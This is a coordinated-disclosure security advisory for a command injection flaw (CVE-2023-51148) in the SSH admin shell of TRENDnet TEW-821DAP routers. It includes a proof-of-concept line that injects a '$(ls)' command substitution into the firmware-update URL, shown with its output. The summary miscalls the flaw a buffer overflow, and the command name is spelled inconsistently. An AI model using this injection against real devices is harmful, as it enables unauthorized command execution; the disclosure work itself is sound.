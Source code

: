 # Command injection in mycli (CVE-2023-51148) #

## Summary
We identified a buffer overflow vulnerability on TRENDnet AC1200 TEW-821DAP (v2.0R and v2.5R) device, firmware version 3.00b06. The `fwup` command of custom shell `mycli` on the affected device allows an attacker with valid SSH credentials to inject and execute arbitrary shell commands.

## Product
* TRENDnet AC1200 TEW-821DAP V2.0R (firmware 3.00b06)
* TRENDnet AC1200 TEW-821DAP V2.5R (firmware 3.00b06)

## Details
Shell `mycli` is set for the SSH admin console, but is vulnerable to a command injection issue. Specifically, due to the lack of input validation, attackers can include shell "command substitution" sequences in command `mgmt fwgrade fwup` to execute arbitrary commands on the underlying Linux system.

In detail, the `mgmt fwupgrade fwup` command is used to trigger a firmware upgrade. The syntax is the following:

```
mgmt fwupgrade fwup <url>
```

where `url` contains the URL of the new firmware to be installed on the device. This parameter is specified by the user and it is not properly sanitized before use.

## PoC

```
TEW-821DAP>> mgmt fwgrade fwup $(ls )
TEW-821DAP>> --2023-12-01 08:08:43-- http://bin/
Resolving bin... failed: Name or service not known.
wget: unable to resolve host address `bin'
|--2023-12-01 08:08:43-- http://dev/
Resolving dev... failed: Name or service not known.
wget: unable to resolve host address `dev'
|--2023-12-01 08:08:43-- http://etc/
Resolving etc... failed: Name or service not known.
wget: unable to resolve host address `etc'
|--2023-12-01 08:08:43-- http://export.sh/
Resolving export.sh... failed: Name or service not known.
wget: unable to resolve host address `export.sh'
http://https/
|--2023-12-01 08:08:43--
Resolving https... failed: Name or service not known.
wget: unable to resolve host address 'https'
|--2023-12-01 08:08:43-- http://lib/
Resolving lib... failed: Name or service not known.
wget: unable to resolve host address 'lib'
|--2023-12-01 08:08:43-- http://mnt/
Resolving mnt... failed: Name or service not known.
wget: unable to resolve host address 'mnt'
```

## Impact
By exploiting this vulnerability it could be possible to execute arbitrary commands on the device.
Note that, by default, the SSH service is exposed only on the LAN side; thus, unless a user intentionally exposes SSH on the WAN-side, this issue cannot be exploited remotely.

### Additional information

### Credit
Spike Reply Cybersecurity Team

### Disclosure timeline

- December 6, 2023: Initial vendor contact
- December 11, 2023: Vulnerability confirmed by TRENDnet
- January 2, 2024: TRENDnet shares a preview version of the firmware that includes the security fixes 3.02B04
- January 8, 2024: Spike confirms that security fixes included in firmware 3.02B04 are effective
- January 9, 2024: TRENDnet confirms that customers will be notified about the new firmware version
- March 8, 2024: Disclosure
